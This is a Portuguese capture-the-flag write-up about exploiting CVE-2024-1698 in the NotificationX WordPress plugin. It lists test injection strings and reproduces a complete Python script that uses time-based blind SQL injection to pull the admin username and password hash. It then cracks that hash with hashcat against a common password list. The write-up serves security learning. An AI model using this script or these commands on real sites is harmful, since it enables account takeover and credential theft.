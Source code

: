 # SQL Injection

## Reconhecimento

Ao abrir o website a primeira informação que tentámos encontrar é a versão do Wordpress que normalmente se encontra nos metadados do website com o name="generator".

![Wordpress Version](/screenshots/CTF8_1.png)

Procurando por vulnerabilidades relacionadas a essa versão do Wordpress não encontrámos nada relacionado a SQL Injection.

Ao analisar o comentário pop-up que regularmente aparecia utilizando o serviço Notification-X:

![Notificação](/screenshots/CTF8_2.png)

Dava a informação que o hash da palavra-passe do adminstrador começava por $P$B.

Em baixo tem um form que possibilita o utilizador responder ao comentário que comunica com a base de dados através de wp-comments-post.php. 

![Form](/screenshots/CTF8_3.png)

Para testar a possibilidade de um ataque através deste form inserimos caracteres especiais frequentemente usados em injeções SQL, como: ```' OR '1'='1```, ```' OR 1=1 --``` e ```' UNION SELECT NULL, NULL --```. Todos sem sucesso pois o ao comentar qualquer input dava erro.

![Erro Reply](/screenshots/CTF8_4.png)

Finalmente procurando por mais vetores de ataque procurámos por vulnerabilidades relacionadas ao serviço de notificações utilizado e sabendo que a sua versão é a 2.8.1 encontrámos o CVE-2024-1698.

![Versão Notification-X](/screenshots/CTF8_5.png)

![CVE Details](/screenshots/CTF8_6.png)

Procurámos por PoCs (Proofs of Concept) da exploit em questão encontrando vários scripts tais como:

```py
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 3

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = "$P$B"  # Start with the known prefix

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters
    for ascii_val_username in string.printable:
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ord(ascii_val_username)},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += ascii_val_username
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character

# Find admin password hash starting from the known prefix
for idx_password in range(4, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters
    for ascii_val_password in string.printable:
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ord(ascii_val_password)},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += ascii_val_password
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            break  # Move to the next character

print("[*] Admin credentials found:")
print("Username:", admin_username)
print("Password hash:", admin_password_hash)
```

Ajustámos os campos url, admin_password_hash utilizando a pista dada pelo comentário do concerned-hacker e o delay dos payloads SQL.

Correndo o script descobrímos o hash da password do admin:

![Resultado Script](/screenshots/CTF8_7.png)

O hash segue o formato de PHPPass, um algoritmo comumente usado para proteger senhas no Wordpress. O hashcat suporta o formato PHPPass através do modo 400.

Utilizando o hashcat com os parâmetros hashcat -m 400 -a 0 hash rockyou.txt, sendo o último ficheiro uma coleção de passwords mais utilizadas que encontrámos no github, descodificamos a flag heartbroken.

![Resultado Hashcat](/screenshots/CTF8_8.png)